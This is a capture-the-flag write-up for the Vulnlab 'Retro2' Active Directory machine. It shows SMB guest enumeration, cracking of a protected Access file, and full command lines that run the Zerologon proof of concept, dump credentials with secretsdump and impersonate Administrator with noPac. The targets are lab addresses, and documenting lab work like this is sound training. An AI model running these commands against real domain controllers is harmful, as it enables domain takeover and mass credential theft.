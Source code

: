 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Retro2/logo.png
date: 2025-01-07 09:45:47 +07:00
modified: 2025-01-7 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
ags: [Retro2, Zerologon, NoPac, SMB, null session, password cracking, John the Ripper, .accdb, Windows shares, Impacket, secretsdump, Active Directory, LDAP, Kerberos, privilege escalation, domain administrator, credential dumping]
title: Retro2 - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro2 presents a `easy` difficulty challenge, where enumeration reveals several critical services, including LDAP and SMB. After gaining initial access via guest login, I discover a password-protected Microsoft Access .accdb file, which I decrypt using John the Ripper. Credentials retrieved from the file allow further exploitation. Utilizing the credentials, I identify vulnerabilities in the system: Zerologon and NoPac. Zerologon enables me to reset the Domain Controller password without credentials, facilitating a complete credential dump using secretsdump. For NoPac, with valid credentials, I escalate privileges by impersonating the domain administrator, ultimately obtaining a shell and the root flag.


# Enumeration
The Nmap scan shows the following open ports.

```bash
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
After logging in with guest access, I found a password-protected .accdb Microsoft Access file.
`netexec smb 10.10.104.48 -u 'sz' -p '' --shares`
`smbclient \\\\\10.10.104.48\\Public -U "sz" -N`

![](https://photos.squarezero.dev/file/abir-images/Retro2/1.png)
![](https://photos.squarezero.dev/file/abir-images/Retro2/2.png)

I used John to crack the password.

![](https://photos.squarezero.dev/file/abir-images/Retro2/3.png)

Inside the file, I found credentials for ldapreader.

![](https://photos.squarezero.dev/file/abir-images/Retro2/4.png)

Using these credentials, it appears the system is vulnerable to both Zerologon and NoPac.

![](https://photos.squarezero.dev/file/abir-images/Retro2/5.png)

# ZeroLogon
For Zerologon, no credentials are required. Simply using the proof-of-concept (PoC) exploit changes the Domain Controller (DC) password to an empty string.

[Zerologon PoC](https://github.com/dirkjanm/CVE-2020-1472)

`python3 cve-2020-1472-exploit.py BLN01 10.10.84.249`

![](https://photos.squarezero.dev/file/abir-images/Retro2/8.png)

Afterward, I dumped all credentials using secretsdump.

![](https://photos.squarezero.dev/file/abir-images/Retro2/6.png)

# NoPac
For NoPac, valid credentials are needed. With the credentials, I was able to impersonate the domain administrator and get a shell.
`python3 noPac.py "retro2.vl"/'ldapreader':"ppYaVcB5R" -dc-ip 10.10.104.48 -shell --impersonate "Administrator" -use-ldap`

![](https://photos.squarezero.dev/file/abir-images/Retro2/7.png)


